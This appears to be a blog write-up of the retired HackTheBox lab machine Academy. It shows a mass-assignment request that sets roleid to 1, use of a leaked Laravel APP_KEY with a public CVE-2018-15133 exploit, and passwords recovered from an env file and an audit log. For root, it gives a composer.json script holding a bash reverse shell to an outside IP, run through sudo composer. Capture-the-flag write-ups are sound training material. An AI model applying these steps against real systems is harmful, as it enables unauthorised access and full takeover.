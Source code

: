```yaml
---
title: HackTheBox - Academy Writeup
subtitle: Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine!
date: '2021-04-25'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'easy']
image: /assets/img/htb-academy/featured.jpg
render_with_liquid: false
---
```



# Information Gathering

## Nmap scan 

```
sudo nmap -sC -sV -T5 -oA nmap -O -A -v 10.10.10.215
```

![](/assets/img/htb-academy/nmap.png)

As we see we have 2 ports open <br/>
SSH on port 22 running OpenSSH 8.2p1 <br/>
http on port 80 running httpd 2.4.41 <br/>

we notice as well the academy.htb domain, which we should add to /etc/hosts.



## Gobuster scan 


```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://academy.htb -x php
```

![](/assets/img/htb-academy/gob.png)


# Initial Foothold


## Identifying the exploit

So basically the first thing that tried was sql injection on <b> admin.php </b> but that didn't give me any results. as we don't have any potential users let's move on and dig further. <br/>

Let's create an account and see if we can find any usernames and intercept it with burp

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://academy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://academy.htb/register.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sdloh07q837vauvt0oqevack4o
Connection: close
uid=elleuch&password=elleuch&confirm=elleuch&roleid=0
```
We can notice the <b>roleid</b>	parameter which is set to 0. we can assume that's assigning a role to the user we're creating. Which basically can be a normal user ( roleid=0 ) or a privileged user ( roleid=1 ).

Let's change change 0 to 1 and forward the request and create our privileged user and try to login to <b>/admin.php</b> 

![](/assets/img/htb-academy/planner.png)

As we see above the planner leaks to us a subdomain <b>dev-staging-01.academy.htb</b> <br/>
Let's add it to /etc/hosts and see what we get

![](/assets/img/htb-academy/laravel.png)

Errors! That sounds promosing! Scrolling down we can see something really interesting
```
APP_KEY	 "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```
We have the APP_KEY! We can abuse <b>Laravel Unserialize Vulnerability CVE-2018-15133 </b> <br/>
For this exploit we'll be using this script, a pretty easy syntax.
```
https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py
```

![](/assets/img/htb-academy/foothold.png)

And voilà we're on the box

# User Privesc

Now let's start enumarating,We already know that the webserver is running PHP Laravel. </br>
The first thing we should look at is the <b>.env</b> file. </br>

![](/assets/img/htb-academy/env.png)

And we get a password! <br />
`mySup3rP4s5w0rd!!` <br/>
Let's see if it belongs to any existing user

![](/assets/img/htb-academy/users.png)

After manually trying to switch to these users, it turns out to be cry0l1t3's password

![](/assets/img/htb-academy/logincry.png)

Our user is in the <b>adm</b> group! So basically we can read logs! And also we can read the audit log! We can grab some juicy informations from it

![](/assets/img/htb-academy/mrb3.png)

`data=6D7262336E5F41634064336D79210A`

Seems we got a password! But it's hex encoded! Let's decode it

![](/assets/img/htb-academy/pw.png)


`mrb3n_Ac@d3my!`

Seems like it's mrb3n's password! 

# Root Privesc

Mrb3n can execute <b>/usr/bin/composer</b> as root!

![](/assets/img/htb-academy/sudo.png)

Going through the docs of composer we can find out that we can execute a custom script using composer! we need to create a composer.json first in any folder we want!
```json
{ 
"scripts":{"shell":"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/4444 0>&1'"}
}
```

We set our listener 


```
nc -lvnp 4444 
```

And execute 

```
sudo /usr/bin/composer --working-dir=fake run-script shell
```

![](/assets/img/htb-academy/root.png)


And we rooted the box! <br/>
`uid=0(root) gid=0(root) groups=0(root)`


